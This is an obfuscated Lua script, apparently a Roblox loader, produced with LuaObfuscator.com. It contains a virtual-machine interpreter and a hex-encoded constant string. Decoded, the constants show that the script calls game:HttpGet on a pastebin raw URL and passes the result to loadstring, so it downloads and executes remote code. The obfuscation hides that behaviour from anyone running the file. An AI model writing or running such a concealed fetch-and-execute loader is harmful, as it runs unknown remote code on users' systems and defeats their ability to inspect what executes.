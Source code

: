 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v85=v2(v0(v30,16));if v19 then local v114=v5(v85,v19);v19=nil;return v114;else return v85;end end end);local function v20(v31,v32,v33) if v33 then local v86=(v31/((5 -(1640 -(1523 + 114)))^(v32-((879 -(282 + 595)) -1))))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -(555 + 64)))) + (932 -(857 + 74)))) ;return v86-(v86%(569 -(367 + 201))) ;else local v87=(929 -(214 + 713))^(v32-1) ;return (((v31%(v87 + v87))>=v87) and (1 + 0 + 0)) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (2 -0) );v18=v18 + 2 ;return (v36 * (1321 -(68 + 997))) + v35 ;end local function v23() local v37,v38,v39,v40=v1(v16,v18,v18 + (1273 -(226 + 1044)) );v18=v18 + ((974 -(892 + 65)) -13) ;return (v40 * (16777333 -(32 + 85))) + (v39 * (64226 + 1310)) + (v38 * (57 + (474 -275))) + v37 ;end local function v24() local v41=v23();local v42=v23();local v43=(792 -(368 + 423)) -0 ;local v44=(v20(v42,1 -0 ,(1162 -792) -(87 + (281 -(10 + 8))) ) * (2^(212 -(67 + 113)))) + v41 ;local v45=v20(v42,21,23 + (30 -22) );local v46=((v20(v42,78 -46 )==(1 + 0)) and  -(3 -(444 -(416 + 26)))) or (953 -(802 + 150)) ;if (v45==(0 -0)) then if (v44==(0 -0)) then return v46 * (0 + 0) ;else local v115=997 -(915 + 82) ;while true do if (v115==((0 -0) -0)) then v45=1 + 0 ;v43=0 -0 ;break;end end end elseif (v45==((1388 + 1846) -(1069 + 118))) then return ((v44==(0 -0)) and (v46 * ((1 -0)/(0 + 0)))) or (v46 * NaN) ;end return v8(v46,v45-(1817 -794) ) * (v43 + (v44/(2^((91 -39) + 0)))) ;end local function v25(v47) local v48;if  not v47 then local v88=438 -(145 + 293) ;while true do if (v88==(430 -(37 + 7 + (1158 -(201 + 571))))) then v47=v23();if (v47==(1486 -(998 + 488))) then return "";end break;end end end v48=v3(v16,v18,(v18 + v47) -1 );v18=v18 + v47 ;local v49={};for v66=1 + 0 , #v48 do v49[v66]=v2(v1(v3(v48,v66,v66)));end return v6(v49);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v50=(function() return function(v89,v90,v91,v92,v93,v94,v95,v96) local v89=(function() return 0 + 0 ;end)();local v90=(function() return;end)();local v92=(function() return;end)();while true do if (v89~=0) then else local v120=(function() return 0;end)();while true do if (v120==(699 -(208 + 490))) then v89=(function() return  #"!";end)();break;end if (v120==0) then v90=(function() return v91();end)();v92=(function() return nil;end)();v120=(function() return 1 + 0 ;end)();end end end if (v89== #">") then if (v90== #":") then v92=(function() return v91()~=0 ;end)();elseif (v90==2) then v92=(function() return v93();end)();elseif (v90== #"91(") then v92=(function() return v94();end)();end v95[v96]=(function() return v92;end)();break;end end return v89,v90,v91,v92,v93,v94,v95,v96;end;end)();local v51=(function() return function(v97,v98,v99,v100,v101,v102,v103,v104,v105) local v106=(function() return 0;end)();local v97=(function() return;end)();local v98=(function() return;end)();while true do if (v106~=(1 + 0)) then else while true do if (v97==(836 -(660 + 176))) then v98=(function() return v99();end)();if (v100(v98, #"}", #">")~=(0 + 0)) then else local v126=(function() return 202 -(14 + 188) ;end)();local v127=(function() return;end)();local v128=(function() return;end)();local v129=(function() return;end)();local v130=(function() return;end)();while true do if (v126==(677 -(534 + 141))) then while true do if (v127~= #"]") then else local v184=(function() return 0;end)();while true do if (v184==0) then v130=(function() return {v101(),v101(),nil,nil};end)();if (v128==0) then local v190=(function() return 0 + 0 ;end)();local v191=(function() return;end)();while true do if ((0 + 0)~=v190) then else v191=(function() return 0 -0 ;end)();while true do if (v191~=0) then else v130[ #"xnx"]=(function() return v101();end)();v130[ #".dev"]=(function() return v101();end)();break;end end break;end end elseif (v128== #"}") then v130[ #"19("]=(function() return v102();end)();elseif (v128==(2 -0)) then v130[ #"91("]=(function() return v102() -((5 -3)^16) ;end)();elseif (v128== #"asd") then local v198=(function() return 0;end)();while true do if (v198==0) then v130[ #"19("]=(function() return v102() -(2^(9 + 7)) ;end)();v130[ #".dev"]=(function() return v101();end)();break;end end end v184=(function() return 1;end)();end if ((1 + 0)~=v184) then else v127=(function() return 398 -(115 + 281) ;end)();break;end end end if (v127~= #"xxx") then else if (v100(v129, #"-19", #"91(")== #"!") then v130[ #"asd1"]=(function() return v103[v130[ #"asd1"]];end)();end v104[v105]=(function() return v130;end)();break;end if (v127==2) then local v186=(function() return 0 -0 ;end)();while true do if (v186~=0) then else if (v100(v129, #",", #"|")~= #"\\") then else v130[2 + 0 ]=(function() return v103[v130[2]];end)();end if (v100(v129,4 -2 ,2)~= #"\\") then else v130[ #"asd"]=(function() return v103[v130[ #"xxx"]];end)();end v186=(function() return 3 -2 ;end)();end if (v186~=1) then else v127=(function() return  #"asd";end)();break;end end end if (v127==(867 -(550 + 317))) then local v187=(function() return 0 -0 ;end)();local v188=(function() return;end)();while true do if (v187==(0 -0)) then v188=(function() return 0 -0 ;end)();while true do if (v188==(285 -(134 + 151))) then v128=(function() return v100(v98,2, #"-19");end)();v129=(function() return v100(v98, #".dev",6);end)();v188=(function() return 1666 -(970 + 695) ;end)();end if (v188==(1 -0)) then v127=(function() return  #".";end)();break;end end break;end end end end break;end if (v126~=0) then else local v155=(function() return 0;end)();local v156=(function() return;end)();while true do if (v155==(1990 -(582 + 1408))) then v156=(function() return 0 -0 ;end)();while true do if (v156==0) then v127=(function() return 0;end)();v128=(function() return nil;end)();v156=(function() return 1 -0 ;end)();end if (v156~=(3 -2)) then else v126=(function() return 1;end)();break;end end break;end end end if (v126==(1825 -(1195 + 629))) then local v157=(function() return 0;end)();local v158=(function() return;end)();while true do if (v157==(0 -0)) then v158=(function() return 241 -(187 + 54) ;end)();while true do if (v158~=0) then else v129=(function() return nil;end)();v130=(function() return nil;end)();v158=(function() return 1;end)();end if (v158==1) then v126=(function() return 782 -(162 + 618) ;end)();break;end end break;end end end end end break;end end return v97,v98,v99,v100,v101,v102,v103,v104,v105;end if (v106~=0) then else v97=(function() return 0 + 0 ;end)();v98=(function() return nil;end)();v106=(function() return 1 + 0 ;end)();end end end;end)();local v52=(function() return function(v107,v108,v109) local v110=(function() return 0;end)();local v111=(function() return;end)();while true do if (v110==0) then v111=(function() return 0;end)();while true do if (v111==0) then local v124=(function() return 0 -0 ;end)();local v125=(function() return;end)();while true do if (v124==(0 -0)) then v125=(function() return 0 + 0 ;end)();while true do if (v125==(1636 -(1373 + 263))) then v107[v108-#"~" ]=(function() return v109();end)();return v107,v108,v109;end end break;end end end end break;end end end;end)();local v53=(function() return {};end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {v53,v54,nil,v55};end)();local v57=(function() return v23();end)();local v58=(function() return {};end)();for v68= #"~",v57 do FlatIdent_12703,Type,v21,Cons,v24,v25,v58,v68=(function() return v50(FlatIdent_12703,Type,v21,Cons,v24,v25,v58,v68);end)();end v56[ #"91("]=(function() return v21();end)();for v69= #",",v23() do FlatIdent_475BC,Descriptor,v21,v20,v22,v23,v58,v53,v69=(function() return v51(FlatIdent_475BC,Descriptor,v21,v20,v22,v23,v58,v53,v69);end)();end for v70= #"[",v23() do v54,v70,v28=(function() return v52(v54,v70,v28);end)();end return v56;end local function v29(v60,v61,v62) local v63=v60[1001 -(451 + (1761 -(323 + 889))) ];local v64=v60[1 + 1 ];local v65=v60[4 -1 ];return function(...) local v71=v63;local v72=v64;local v73=v65;local v74=v27;local v75=1 -0 ;local v76= -(1385 -(746 + 638));local v77={};local v78={...};local v79=v12("#",...) -(1 -(0 -0)) ;local v80={};local v81={};for v112=(921 -(361 + 219)) -(218 + 123) ,v79 do if ((2821<=4824) and ((v112>=v73) or (1417>3629))) then v77[v112-v73 ]=v78[v112 + (1582 -((1855 -(53 + 267)) + 46)) ];else v81[v112]=v78[v112 + 1 + 0 ];end end local v82=(v79-v73) + 1 + 0 + 0 ;local v83;local v84;while true do local v113=560 -(306 + 254) ;while true do if (v113==(0 + 0)) then v83=v71[v75];v84=v83[1];v113=1;end if (v113==(1 -0)) then if ((1738<=2195) and (v84<=(1470 -(899 + 568)))) then if ((4795>402) and (v84<=(1 + 0))) then if ((41<=3018) and (v84==(0 -0))) then v81[v83[2]]=v62[v83[606 -(268 + 335) ]];else local v133=v83[292 -(60 + 230) ];local v134,v135=v74(v81[v133](v13(v81,v133 + (573 -(426 + 146)) ,v83[1 + 2 ])));v76=(v135 + v133) -(1457 -(282 + 1174)) ;local v136=811 -(569 + 242) ;for v152=v133,v76 do v136=v136 + (2 -1) ;v81[v152]=v134[v136];end end elseif (v84>(1 + 1)) then v81[v83[1026 -(706 + 318) ]]=v83[1254 -(721 + (943 -(15 + 398))) ];else local v139=v83[1273 -(945 + 326) ];local v140=v81[v83[7 -4 ]];v81[v139 + 1 + 0 ]=v140;v81[v139]=v140[v83[704 -(271 + 429) ]];end elseif ((2145<=4104) and (v84<=(5 + 0))) then if (v84==4) then do return;end else local v144=v83[1502 -(1408 + 92) ];v81[v144]=v81[v144](v13(v81,v144 + (1087 -(461 + 625)) ,v76));end elseif ((4813>3565) and (v84<=(1294 -(993 + 295)))) then local v146=0 + 0 ;local v147;local v148;local v149;local v150;local v151;while true do if ((2689<4845) and (v146==(1176 -(418 + 753)))) then v81[v151]=v81[v151](v13(v81,v151 + 1 + (982 -(18 + 964)) ,v76));v75=v75 + 1 + 0 ;v83=v71[v75];v81[v83[2]]();v75=v75 + 1 + (0 -0) ;v83=v71[v75];v146=2 + 4 ;end if (v146==(529 -(236 + 170 + 123))) then v147=nil;v148,v149=nil;v150=nil;v151=nil;v81[v83[2]]={};v75=v75 + 1 ;v146=1770 -(1749 + 20) ;end if ((v146==(1 + 2)) or (2322>2622)) then v83=v71[v75];v81[v83[1324 -(1249 + 73) ]]=v83[2 + 0 + 1 ];v75=v75 + (1146 -(466 + 679)) ;v83=v71[v75];v151=v83[4 -2 ];v148,v149=v74(v81[v151](v13(v81,v151 + (2 -1) ,v83[853 -(20 + 830) ])));v146=1904 -(106 + 1794) ;end if ((v146==(1 + 0 + 1)) or (4534==2082)) then v83=v71[v75];v151=v83[1 + 1 ];v150=v81[v83[8 -5 ]];v81[v151 + (2 -1) ]=v150;v81[v151]=v150[v83[118 -(4 + 110) ]];v75=v75 + 1 ;v146=587 -(57 + 527) ;end if (v146==(1431 -(41 + 1386))) then v76=(v149 + v151) -((230 -(116 + 10)) -(17 + 86)) ;v147=0 + 0 ;for v181=v151,v76 do v147=v147 + 1 ;v81[v181]=v148[v147];end v75=v75 + (1 -0) ;v83=v71[v75];v151=v83[5 -3 ];v146=5;end if (1==v146) then v83=v71[v75];v81[v83[168 -(10 + 112 + 44) ]]=v62[v83[5 -(740 -(542 + 196)) ]];v75=v75 + (3 -2) ;v83=v71[v75];v81[v83[2 + 0 ]]=v62[v83[3]];v75=v75 + 1 + 0 ;v146=(6 -3) -1 ;end if (v146==(71 -(9 + 21 + 18 + 17))) then do return;end break;end end elseif ((3912==3912) and (v84>(5 + 2))) then v81[v83[1 + 1 ]]={};else v81[v83[1259 -(1043 + (563 -349)) ]]();end v75=v75 + (3 -2) ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F4B6E7868747A6A5700094Q00067Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
